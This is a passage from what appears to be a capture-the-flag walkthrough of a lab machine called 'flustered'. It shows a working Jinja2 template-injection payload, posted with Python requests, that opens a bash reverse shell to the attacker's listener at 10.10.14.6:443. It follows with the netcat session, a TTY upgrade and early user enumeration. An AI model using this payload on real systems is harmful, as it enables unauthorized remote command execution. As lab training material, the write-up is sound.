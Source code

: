 #### Shell

I’ll modify that again to get a reverse shell, and (with `nc` listening on 443) send it:

```

>>> payload = '''{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen('bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"').read()}}{%endif%}{%endfor%}'''
>>> resp = requests.post('http://10.10.11.131/', json={"siteurl": payload}); print(resp.text)

```

It just hangs for a minute or so (before returning a 504), but at `nc`, there’s a shell:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.131 53856
bash: cannot set terminal process group (632): Inappropriate ioctl for device
bash: no job control in this shell
www-data@flustered:~/html/app$

```

I’ll upgrade with the `script` trick:

```

www-data@flustered:~/html/app$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@flustered:~/html/app$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@flustered:~/html/app$

```

## Shell as jennifer

### Enumeration

There’s not much to find in the web directories. There’s one user with a home directory, jennifer, but www-data can’t access it:

```

www-data@flustered:/home$ ls -l
total 4
drwxr-x--- 5 jennifer jennifer 4096 Oct 25 06:49 jennifer

```
